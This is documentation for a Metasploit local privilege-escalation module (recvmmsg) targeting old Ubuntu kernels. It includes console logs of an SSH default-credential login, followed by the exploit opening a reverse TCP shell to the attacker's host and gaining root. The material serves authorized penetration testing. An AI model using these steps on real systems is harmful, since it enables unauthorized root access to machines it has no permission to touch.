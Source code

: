 ## Creating A Testing Environment

This module works against Ubuntu 13.04, and 13.10.  As of writing this, those releases are at EOL (end of life).  If you wish to install `gcc` or other command, you'll need to fix your `/etc/sources.list` to
point to the correct repos.

`sudo sed -i -re 's/([a-z]{2}\.)?archive.ubuntu.com|security.ubuntu.com/old-releases.ubuntu.com/g' /etc/apt/sources.list` [source](http://askubuntu.com/questions/91815/how-to-install-software-or-upgrade-from-an-old-unsupported-release)

This module has been tested against:

  1. Ubuntu 13.04 (default kernel) 3.8.0-19-generic

This module should also work against:

  1. Ubuntu 13.10 (default kernel) 3.11.0-12-generic
  2. Ubuntu 13.10 3.11.0-15-generic

More kernels could be added to this, just need the proper offsets.

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/recvmmsg_priv_esc`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **COMPILE**

  If we should attempt to compile live on the system, or drop a binary.  Default is `auto` which will compile if `gcc` is installed.

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

## Scenarios

### Ubuntu 13.04 (with default kernel: 3.8.0-19-generic)

#### Initial Access

    [*] Processing recvmmsg.rc for ERB directives.
    resource (recvmmsg.rc)> use auxiliary/scanner/ssh/ssh_login
    resource (recvmmsg.rc)> set rhosts 192.168.2.20
    rhosts => 192.168.2.20
    resource (recvmmsg.rc)> set username ubuntu
    username => ubuntu
    resource (recvmmsg.rc)> set password ubuntu
    password => ubuntu
    resource (recvmmsg.rc)> exploit
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare) Linux ubuntu1304 3.8.0-19-generic #29-Ubuntu SMP Wed Apr 17 18:16:28 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.117:39613 -> 192.168.2.20:22) at 2016-10-08 23:19:48 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

#### Escalate

    resource (recvmmsg.rc)> use exploit/linux/local/recvmmsg_priv_esc
    resource (recvmmsg.rc)> set verbose true
    verbose => true
    resource (recvmmsg.rc)> set payload linux/x86/shell/reverse_tcp
    payload => linux/x86/shell/reverse_tcp
    resource (recvmmsg.rc)> set session 1
    session => 1
    resource (recvmmsg.rc)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (recvmmsg.rc)> exploit
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [+] Kernel 3.8.0.pre.19.pre.generic is exploitable
    [+] gcc is installed
    [*] Live compiling exploit on system
    [+] Kernel 3.8.0.pre.19.pre.generic is exploitable
    [*] Writing to /tmp/4bUIkbrG.c (5950 bytes)
    [*] Max line length is 65537
    [*] Writing 5950 bytes in 1 chunks of 20667 bytes (octal-encoded), using printf
    [*] Compiling /tmp/4bUIkbrG.c
    [*] Writing to /tmp/a0RwAacU (185 bytes)
    [*] Max line length is 65537
    [*] Writing 185 bytes in 1 chunks of 560 bytes (octal-encoded), using printf
    [*] Exploiting... May take 17min.  Start time: 2016-10-08 23:20:00 -0400
    [*] Sending stage (36 bytes) to 192.168.2.20
    [*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.20:38465) at 2016-10-08 23:32:49 -0400
    
    id
    uid=0(root) gid=0(root) groups=0(root)
    uname -a
    Linux ubuntu1304 3.8.0-19-generic #29-Ubuntu SMP Wed Apr 17 18:16:28 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux

### Using pre-compiled binaries on the same system

    resource (recvmmsg.rc)> use exploit/linux/local/recvmmsg_priv_esc
    resource (recvmmsg.rc)> set verbose true
    verbose => true
    resource (recvmmsg.rc)> set payload linux/x86/shell/reverse_tcp
    payload => linux/x86/shell/reverse_tcp
    resource (recvmmsg.rc)> set session 1
    session => 1
    resource (recvmmsg.rc)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (recvmmsg.rc)> exploit
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [+] Kernel 3.8.0.pre.19.pre.generic is exploitable
    [-] gcc is not installed.  Compiling will fail.
    [*] Dropping pre-compiled exploit on system
    [+] Kernel 3.8.0.pre.19.pre.generic is exploitable
    [*] Writing to /tmp/Yc0xB9oC (14571 bytes)
    [*] Max line length is 65537
    [*] Writing 14571 bytes in 1 chunks of 38575 bytes (octal-encoded), using printf
    [*] Writing to /tmp/a0RwAacU (185 bytes)
    [*] Max line length is 65537
    [*] Writing 185 bytes in 1 chunks of 560 bytes (octal-encoded), using printf
    [*] Exploiting... May take 17min.  Start time: 2016-10-08 23:42:01 -0400
    [*] Sending stage (36 bytes) to 192.168.2.20
    [*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.20:38465) at 2016-10-08 23:54:50 -0400
    [+] Deleted /tmp/Yc0xB9oC
    [+] Deleted /tmp/a0RwAacU
    
    2689016405
    carERUCEUgdCZfvTyiWuBklsNMqcNhey
    true
    dPZDicgefmDeBvIpRYKaToiSQmHWQxBe
    yGWMZKlCTQskKCZERIXNchDARUIzzBJn
    FjFxyOSVHntGpawbQfSzIdRPsbeyOgSq
    true
    HFPuJArQoYvuxhkoWbAwvdDbNVUjSdUL
    vMvWNASOZcfTmStOGnozdJzfTAUWJYzU
    VQUKZqzBlQaQJmbtyQSSNudDtINToRhu
    whoami
    root
